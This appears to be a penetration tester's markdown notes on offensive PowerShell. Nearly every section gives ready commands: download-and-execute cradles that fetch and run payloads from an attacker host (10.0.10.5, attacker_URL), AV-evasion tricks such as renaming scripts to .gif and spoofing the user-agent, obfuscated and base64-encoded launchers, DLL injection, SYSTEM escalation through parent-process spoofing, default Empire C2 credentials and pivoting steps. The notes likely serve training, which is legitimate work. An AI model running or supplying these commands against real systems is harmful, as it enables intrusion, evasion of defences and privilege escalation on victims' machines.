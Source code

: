 > Living-of-the-land (using already existent tools of the operating system)

- Execute script from disk
- Preferred: Execute in memory  

GURU: https://github.com/danielbohannon

## Download & Execution

Methods (`Net.WebClient`) in memory
- `DownloadString`
- `DownloadData`
- etc.

### In Memory

Exhaustive in memory approach, with immediate execution (obviously):

```powershell
$downloader = New-Object System.net.webclient
$payload ="http://10.0.10.5:8000/pew.ps1"
$cmd = $downloader.DownloadString($payload)
# optional proxy creds
$proxy = [Net.WebRequest]::GetSystemWebProxy()
$proxy.Credentials = [Net.CredentialCache]::DefaultCredentials
$downloader.Proxy = $proxy
# end optional proxy creds
Invoke-Expression $cmd
```

One-Liner:

```powershell
iex (New-Object Net.WebClient).DownloadString("http://10.0.10.5:8000/pew.ps1")
```

### On Disk

Methods on disk (check [LOLBAS](https://lolbas-project.github.io/#))

```powershell
$downloader = New-Object System.Net.WebClient
$payload = "http://attacker_URL/payload.exe"
$local_file = "C:\programdata\payload.exe"
$downloader.DownloadFile($payload,$local_file) 

& $local_file # executes the payload - you need the leading &
```

### Evasion

- Use https with cert if possible - this can avoid over-the-whire heuristics
- Also name your script `pew.gif` to avoid matching of extenstions, powershell will still execute the script!
- use custom header to resemble legit webrequest!  

```powershell
# ... use user-agent
$downloader.headers.add("user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.146 Safari/537.36")
# ...
```

### execution of XML  

```xml
<?xml version="1.0"?>
	<command>
		<a>
			<execute>Get-Process</execute>
		</a>
	</command>
```

Load and execute in powershell  

```powershell
$xmldoc = New-Object System.Xml.XmlDocument
$xmldoc.Load("http://10.0.10.5:8000/pew.xml")
iex $xmldoc.command.a.execute
```

### usage of COM objects 

> What are COM-Objects: Intercomputer and -process communikation from objects 

```powershell
$downloader = New-Object –ComObject Msxml2.XMLHTTP
$downloader.open(“GET”, “http://10.0.10.5:8000/pew.gif”, $false)
$downloader.send()
iex $downloader.responseText
```

### Tools 

- [invoke-cradlecrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)

## Obfuscation  

- [invoke-obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)  

1. set scriptblock  

```powershell
# start invoke-obfuscation
invoke-obfuscation
> set scriptblock iex (New-Object Net.Webclient).downloadstring("http://10.0.10.5:8000/pew.ps1")
``` 

2. Choose option (string/encode etc.)  

```powershell
> string
> 3
# output:
. ( $PShoME[4]+$pshOmE[34]+'X') ([strInG]::joiN('', ([regEX]::MAtCHES(")''nIOJ-'x'+]3,1[)(GniRtSOT.ecNeReFErPEsobrEv$ ( & | )43]rahC[,'3me'ECalpeRc- )')3me1sp.w'+'e'+'p/0'+'0'+'08'+':5.0'+'1.0.01'+'//'+':ptth3me(g'+'ni'+'rtsd'+'aoln'+'wod.)'+'tneilc'+'be'+'W.teN '+'tcejbO-we'+'N( '+'x'+'ei'(( ", '.', 'RIG'+'HttOL'+'ef'+'T')|FoReACH{$_.Value}) ) )
```

3. Or encode  

```powershell
> encode
> 7
# output too long to display here
``` 

4. Avoid concatenating multiple steps connected to one option (like string)  

```powershell
> reset
```

5. Execution  

```powershell
cmd> powershell -Command "<encodedCommand>" # depending on ' and " may not work always
```

6. Launcher  

> Executing the payload a certain way  

```powershell
> launcher
> 3 # choose desired option
# copy payload and execute
```

**STUCK?** the `tutorial` command of `invoke-obfuscation` may help with the next steps.

### Encoded commands  

> Encoding of commands to avoid probable bad chars, depending on our circumstances 

1. Encode command  

```powershell
$cmd = 'ipconfig; arp'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
$ec =[convert]::ToBase64String($bytes)
Write-Host $ec
aQBwAGMAbwBuAGYAaQBnADsAIABhAHIAcAA=
```

2. Execute via powershell  

```powershell
cmd> powershell.exe -encodedcommand aQBwAGMAbwBuAGYAaQBnADsAIABhAHIAcAA=
```

## IMPORTANT  

If tools are used, do not import them directly from source - moreover:
- use a download cradle to store in memory
- execute the scripts from memory  

altough the new windows AV might also mingle with that.

## post exploitation 

- [nishang](https://github.com/samratashok/nishang)
- [powersploit](https://github.com/PowerShellMafia/PowerSploit)
- [psgetsystem](https://github.com/decoder-it/psgetsystem)
  
nishang: download, import or serve the specific files to your victim

powersploit: same as above, different scripts and different features

--> Both will be skimmed if downloaded as zip to the victim by the antivirus! 

psgetsystem: try to get system via parent process

### examples  

- powersploit  

```powershell
# display notepad process
ps | ? {$_.processname -match "notepad"}  

# dll injection via powersploit
iex (New-Object net.webclient).DownloadString("http://10.0.10.5:8000/invoke-dllinjection.ps1");invoke-dllinjection -processid 5872 -DLL c:\programdata\cmd.dll
``` 

-> DLLinjection did not work...  

- psgetsystem
	- requires administrator powershell
	- used to circuvent whitelisted application restrictions
	- the command we execute is a child of the given process (via `id`) 

```powershell
# check potential system processes
get-process -includeusername | Where-Object {$_.username -match "SYSTEM"} | fl -Property Username,name,id 

# psgetsystem
. .\psgetsystem.ps1 # importing module
[MyProcess]::CreateProcessFromParent(1572,"cmd.exe", "")
```


## Empire

- C2 Framework [EMPIRE](https://github.com/BC-SECURITY/Empire) (Install manually - kali is fked up, installation takes 10-15 minutes)
	- Defaultcreds for *StarKiller*: `empireadmin:password123`

## Pivoting with empire
> The builtin socks proxy only forwards onto on target port...

1. Run the builtin webproxy within empire
2. Invoke the `powershell_management_invoke_socksproxy` and use attacker IP as `remote` system
3. execute
4. use `proxychains` for usage of the victim host